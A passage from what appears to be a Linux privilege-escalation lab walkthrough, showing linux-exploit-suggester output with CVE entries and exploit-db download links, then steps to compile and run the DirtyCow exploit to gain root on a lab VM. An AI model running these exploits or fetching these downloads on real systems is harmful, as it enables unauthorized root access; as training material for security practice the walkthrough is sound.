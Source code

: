 ~~~
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2009-1185] udev

   Details: https://www.exploit-db.com/exploits/8572/
   Tags: ubuntu=8.10|9.04
   Download URL: https://www.exploit-db.com/download/8572
   Comments: Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed 

[+] [CVE-2009-1185] udev 2

   Details: https://www.exploit-db.com/exploits/8478/
   Download URL: https://www.exploit-db.com/download/8478
   Comments: SSH access to non privileged user is needed. Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed

[+] [CVE-2010-0832] PAM MOTD

   Details: https://www.exploit-db.com/exploits/14339/
   Tags: ubuntu=9.10|10.04
   Download URL: https://www.exploit-db.com/download/14339
   Comments: SSH access to non privileged user is needed

[+] [CVE-2016-1247] nginxed-root.sh

   Details: https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
   Tags: debian=8,ubuntu=14.04|16.04|16.10
   Download URL: https://legalhackers.com/exploits/CVE-2016-1247/nginxed-root.sh
   Comments: Rooting depends on cron.daily (up to 24h of dealy). Affected: deb8: <1.6.2; 14.04: <1.4.6; 16.04: 1.10.0

TCM@debian:~/tools/linux-exploit-suggester$ 
~~~

**Exploitation**

Linux VM

1. In command prompt type: `gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w`
2. In command prompt type: `./c0w`

Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.

3. In command prompt type: `passwd`
4. In command prompt type: `id`

~~~
TCM@debian:~/tools/dirtycow$ ll
total 8
-rw-r--r-- 1 TCM user 4368 May 15  2017 c0w.c
TCM@debian:~/tools/dirtycow$ gcc -pthread c0w.c -o c0w
TCM@debian:~/tools/dirtycow$ ll
total 20
-rwxr-xr-x 1 TCM user 10278 Aug 24 16:37 c0w
-rw-r--r-- 1 TCM user  4368 May 15  2017 c0w.c
TCM@debian:~/tools/dirtycow$ ./c0w 
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
~~~